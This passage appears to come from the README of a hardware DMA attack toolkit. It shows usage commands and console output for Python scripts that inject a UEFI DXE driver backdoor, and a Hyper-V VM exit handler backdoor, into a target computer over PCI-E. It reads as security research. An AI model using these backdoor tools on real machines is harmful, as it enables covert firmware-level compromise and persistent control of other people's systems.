 3) Power on the target computer, in case of succesful attack in couple of seconds you will see debug messages screen of injected UEFI driver.

Example of debug messages on attack target screen:

<img src="images/backdoor_simple.png" width="499" height="371">

Example of `uefi_backdoor_simple.py` console output:

```
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] TSEG is somewhere around 0xd7000000
[+] PE image is at 0xd6260000
[+] EFI_SYSTEM_TABLE is at 0xd61eaf18
[+] EFI_BOOT_SERVICES is at 0xd680aa00
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0xd67e2c18
Backdoor image size is 0x1240
Backdoor entry RVA is 0x31c
Planting DXE stage driver at 0x10000...
Hooking LocateProtocol(): 0xd67e2c18 -> 0x0001031c
0.780202 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] DONE
```

Python program `uefi_backdoor_hv.py` injects Hyper-V VM exit handler backdoor located in UEFI driver `payloads/DmaBackdoorHv`. Usage:

```
./uefi_backdoor_hv.py payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] PCI-E link with target is up
[+] TSEG is somewhere around 0x8b800000
[+] PE image is at 0x88930000
[+] EFI_SYSTEM_TABLE is at 0x8b294f18
[+] EFI_BOOT_SERVICES is at 0x83201d60
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x83209b88
Backdoor image size is 0x1c00
Backdoor entry RVA is 0xa30
Planting DXE stage driver at 0x10000...
Hooking LocateProtocol(): 0x83209b88 -> 0x00010a30
4.077459 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] Waiting for Hyper-V init...
[+] Hyper-V image entry was executed

              Winload CR3: 0x00000000001ab000
              Hyper-V CR3: 0x00000000007aa000
  Hyper-V VM exit handler: 0xfffff8000588c410
      Hyper-V image entry: 0xfffff800058ad3e0

[+] DONE
```
